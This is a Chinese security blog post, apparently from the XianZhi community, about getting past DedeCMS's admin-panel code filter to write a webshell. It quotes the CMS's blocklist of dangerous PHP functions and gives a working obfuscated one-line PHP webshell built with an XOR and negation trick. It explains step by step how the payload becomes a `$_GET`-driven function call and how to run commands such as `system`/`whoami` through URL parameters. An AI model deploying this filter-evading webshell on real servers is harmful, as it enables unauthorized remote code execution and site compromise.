# 一次 WebShell 免杀与 WAF 绕过的攻防对抗分析-先知社区

> **来源**: https://xz.aliyun.com/news/17262  
> **文章ID**: 17262

---

# 一次 WebShell 免杀与 WAF 绕过的攻防对抗分析

## 前言

前端时间分析了一下织梦的cms，然后发现其实还可以在一些地方编辑文件，但是waf 非常非常多，最后也成功绕过了限制，使用了一手以前的老式免杀绕过了防护，可能现在这个webshell 已经不能到免杀的效果了，但是对于这个cms 的waf 绕过是绰绰有余了

## 漏洞寻找过程



来到系统出，有非常多的功能，一个关键点，功能越多那么漏洞越多

点击防采集混淆字符串管理

来到如下界面

原来的内容有点忘了，不过不重要



可以写文件内容



但是有一个问题就是不知道写道哪里去了，也不知道怎么访问

只能看源码了，首先抓个包

```
POST /dede/article_string_mix.php HTTP/1.1
Host: dedecms:5135
Content-Length: 119
Cache-Control: max-age=0
Origin: http://dedecms:5135
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedecms:5135/dede/article_string_mix.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=e80alpiloro32r9eusrtq4qeop; XDEBUG_SESSION=PHPSTORM; _csrf_name_f9024a86=1dde21cb65b69058e309d5e70e2cea80; _csrf_name_f9024a861BH21ANI1AGD297L1FF21LN02BGE1DNG=0b9be02ff72fed3c; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=cdad88453fa752a4; DedeLoginTime=1740589342; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=f3fd2fd952e0acfc
Connection: keep-alive

dopost=save&token=6ffe8262d58fbc98785a2b38be05d66e&allsource=%3C%3Fphp+echo+1%3B%3F%3E&imageField1.x=36&imageField1.y=4
```

我们看到文件/dede/article\_string\_mix.php

我们定位到代码部分

```
if($dopost=="save")
{
    csrf_check();

    // 不允许这些字符
    $allsource = preg_replace("#(/\*)[\s\S]*(\*/)#i", '', $allsource);

    global $cfg_disable_funs;
    $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace';
    $cfg_disable_funs = $cfg_disable_funs.',[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert';
    foreach (explode(",", $cfg_disable_funs) as $value) {
        $value = str_replace(" ", "", $value);
        if(!empty($value) && preg_match("#[^a-z]+['"]*{$value}['"]*[\s]*[([{']#i", " {$allsource}") == TRUE) {
            $allsource = dede_htmlspecialchars($allsource);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");
        }
    }

     if(preg_match("#^[\s\S]+<\?(php|=)?[\s]+#i", " {$allsource}") == TRUE) {
        if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$allsource}") == TRUE) {
            $allsource = dede_htmlspecialchars($allsource);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");
        }
        if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$allsource}") == TRUE) {
            $allsource = dede_htmlspecialchars($allsource);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");
        }
        if(preg_match("#[`][\s\S]*[`]#i", " {$allsource}") == TRUE) {
            $allsource = dede_htmlspecialchars($allsource);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");
        }
    }

    $fp = fopen($m_file,'w');
    flock($fp,3);
    fwrite($fp,$allsource);
    fclose($fp);
    echo "<script>alert('Save OK!');</script>";
}
```

有很多过滤，先不管，我们目前需要知道文件内容写到哪里去了



然后寻找这个源



我们搜索这个文件  


我们尝试访问这个文件



果然如此

## waf分析

我们关注waf



首先就是常见的命令执行的函数都被ban 了，然后全局变量也被ban 了

当然我们常见的就是寻找漏网之鱼了



这个代码就是匹配我们的php 的文件模式

两种方法  
<？php 或 <？=

然后遇到

```
preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$allsource}")

```

这个过滤是比较难受的，导致我们的动态变量调用很难使用

比如我们常见的回调函数

```
<?php
call_user_func_array('system', array('whoami'));
```



还比如我们



但是都不可以





$@someVar（$ param），由于使用 @ 而可能具有可疑性，并可能用于错误抑制或其他恶意意图。

最后一个就是防止反引号执行命令

## 初代免杀绕过

首先给出我们的payload

```
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

写入  


可以看见没有被ban



尝试执行命令



可以看见成功执行了命令完美

来解析一下为什么我们的payload 可以成功

首先最关键的就是异或部分

```
$_='$<>/'^'{{{{';
```

```
$ ^ { → _ （ASCII 36 ^ 123 = 95 → _）
< ^ { → G （60 ^ 123 = 71 → G）
> ^ { → = （62 ^ 123 = 61 → =）
/ ^ { → T （47 ^ 123 = 84 → T）
```

然后取反,得到字符

```
_GET
```

这里只是作为基础的构造字符

然后我们来到实际上的代码执行的字符，也就是我们的核心攻击逻辑

```
@${{$_}}[_](@${{$_}}[__]);  
```

这个部分稍微复杂一点。首先，解析 `${$_}`：

* `${$_}` 等同于 `$_GET`，因为 `$_` 的值是 `'_GET'`。
* `@` 用于抑制错误输出。

然后继续解析 `$_GET[_]` 和 `$_GET[__]`：

* `$_GET[_]` 表示获取URL参数 `_` 的值。
* `$_GET[__]` 表示获取URL参数 `__` 的值。

所以，这一行代码的作用是：

1. 获取 `$_GET[_]`，这是一个函数名。
2. 获取 `$_GET[__]`，这是函数的参数。
3. 调用 `$_GET[_]` 函数，并传递 `$_GET[__]` 作为参数。

得到的类似于

```
$_GET[_]($_GET[__])
```

所以我们可以尝试执行命令了，只需要传入参数

```
?_=system&__=whoami
```

就可以啦

完美结束
